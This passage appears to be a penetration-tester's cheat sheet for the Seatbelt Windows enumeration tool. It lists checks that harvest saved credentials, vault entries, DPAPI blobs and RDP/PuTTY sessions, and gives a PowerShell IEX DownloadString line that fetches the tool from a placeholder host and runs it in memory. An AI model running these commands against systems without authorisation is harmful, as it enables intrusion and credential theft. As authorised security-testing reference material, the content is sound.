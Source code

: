 ```
    + ProcessCreationEvents  - Process creation logs (4688) with sensitive data.
      Processes              - Running processes with file info company names that don't contain 'Microsoft', "-full" enumerates all processes
    + ProcessOwners          - Running non-session 0 process list with owners. For remote use.
    + PSSessionSettings      - Enumerates PS Session Settings from the registry
    + PuttyHostKeys          - Saved Putty SSH host keys
    + PuttySessions          - Saved Putty configuration (interesting fields) and SSH host keys
      RDCManFiles            - Windows Remote Desktop Connection Manager settings files
    + RDPSavedConnections    - Saved RDP connections stored in the registry
    + RDPSessions            - Current incoming RDP sessions (argument == computername to enumerate)
    + RDPsettings            - Remote Desktop Server/Client Settings
      RecycleBin             - Items in the Recycle Bin deleted in the last 30 days - only works from a user context!
      reg                    - Registry key values (HKLM\Software by default) argument == [Path] [intDepth] [Regex] [boolIgnoreErrors]
      RPCMappedEndpoints     - Current RPC endpoints mapped
    + SCCM                   - System Center Configuration Manager (SCCM) settings, if applicable
    + ScheduledTasks         - Scheduled tasks (via WMI) that aren't authored by 'Microsoft', "-full" dumps all Scheduled tasks
      SearchIndex            - Query results from the Windows Search Index, default term of 'passsword'. (argument(s) == <search path> <pattern1,pattern2,...>
      SecPackageCreds        - Obtains credentials from security packages
      SecurityPackages       - Enumerates the security packages currently available using EnumerateSecurityPackagesA()
      Services               - Services with file info company names that don't contain 'Microsoft', "-full" dumps all processes
    + SlackDownloads         - Parses any found 'slack-downloads' files
    + SlackPresence          - Checks if interesting Slack files exist
    + SlackWorkspaces        - Parses any found 'slack-workspaces' files
    + SuperPutty             - SuperPutty configuration files
    + Sysmon                 - Sysmon configuration from the registry
    + SysmonEvents           - Sysmon process creation logs (1) with sensitive data.
      TcpConnections         - Current TCP connections and their associated processes and services
      TokenGroups            - The current token's local and domain groups
      TokenPrivileges        - Currently enabled token privileges (e.g. SeDebugPrivilege/etc.)
    + UAC                    - UAC system policies via the registry
      UdpConnections         - Current UDP connections and associated processes and services
      UserRightAssignments   - Configured User Right Assignments (e.g. SeDenyNetworkLogonRight, SeShutdownPrivilege, etc.) argument == computername to enumerate
    + WindowsAutoLogon       - Registry autologon information
      WindowsCredentialFiles - Windows credential DPAPI blobs
    + WindowsDefender        - Windows Defender settings (including exclusion locations)
    + WindowsEventForwarding - Windows Event Forwarding (WEF) settings via the registry
    + WindowsFirewall        - Non-standard firewall rules, "-full" dumps all (arguments == allow/deny/tcp/udp/in/out/domain/private/public)
      WindowsVault           - Credentials saved in the Windows Vault (i.e. logins from Internet Explorer and Edge).
      WMIEventConsumer       - Lists WMI Event Consumers
      WMIEventFilter         - Lists WMI Event Filters
      WMIFilterBinding       - Lists WMI Filter to Consumer Bindings
    + WSUS                   - Windows Server Update Services (WSUS) settings, if applicable

# Conduct system + user checks, with fully detailed results
SeatBelt.exe <Command> [Command2] [-full]
SeatBelt.exe -group=all [-full]

# Executes SeatBelt from memory (as a gzip-compressed and base64-encoded .Net assembly loaded in PowerShell).
# From PowerSharpBinaries https://github.com/S3cur3Th1sSh1t/PowerSharpPack/
IEX(New-Object Net.WebClient).DownloadString("http://<HOSTNAME | IP>[:<PORT>]/<SCRIPT>")
Invoke-Seatbelt -Command "<Command> [Command2] [-full]"
```